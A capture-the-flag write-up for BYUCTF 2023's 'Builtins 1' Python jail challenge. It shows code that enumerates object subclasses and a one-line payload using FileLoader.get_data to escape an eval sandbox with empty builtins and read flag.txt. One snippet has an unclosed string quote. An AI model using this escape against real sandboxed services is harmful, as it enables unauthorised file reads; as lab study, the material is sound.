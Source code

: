 
### Builtins 1

![builtins_1](https://github.com/Hed6eH0g/ctf/blob/main/2023/byuctf/jail/builtins_1/figs/builtins_1_0.png)

Since the challenge specifies the python version, we begun with building a python container with the corresponding version.
Then, a brief survey with the string `eval(input("code> "), {"__builtins__": {}}, {"__builtins__": {}}` leads us to [a post in the hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#builtins) and found that `().__class__.__bases__[0].__subclasses__()` allows us to look for some useful methods.

Thus, we make the following code to enumerate the list of available methods in the subclasses. 
```
c = ().__class__.__bases__[0].__subclasses__()
# print(c)
# print('')
i = 0
for ci in c:
    print(f'{i}: {ci})
    import inspect
    for m in inspect.getmembers(ci):     
        print(m)
    print('')
    print(' =================== ')       
    print('')
    i += 1
```

After checking the list briefly, we further modified the code to reduce candidates of methods as follows:
```
c = ().__class__.__bases__[0].__subclasses__()
# print(c)
# print('')
i = 0
for ci in c:
    # print(ci)
    import inspect
    get_list = []
    read_list = []
    for m in inspect.getmembers(ci):     
        if 'get' in m[0]:
            if 'getstate' in m[0] or 'getattr' in m[0]:
                continue
            get_list.append(m)
        if 'read' in m[0]:
            read_list.append(m)

            # print(m)
    if len(get_list) > 0 or len(read_list) > 0:
        print(f'{i}: {ci}')
        if len(get_list) > 0:
            for gi in get_list:
                print(gi)
        if len(read_list) > 0:
            for ri in read_list:
                print(ri)
        print('')
        print(' =================== ')   
        print('')
    i += 1

```

This allowed us to find that there is 'get_data', and examining `().__class__.__bases__[0].__subclasses__()[124].get_data()` returns the error `TypeError: FileLoader.get_data() missing 2 required positional arguments: 'self' and 'path'`. 
Thus, what we need to do next is filling up the arguments `self` and `path`, and found that `().__class__.__bases__[0].__subclasses__()[124].get_data('', 'flag.txt')` allowed us to access the flag.
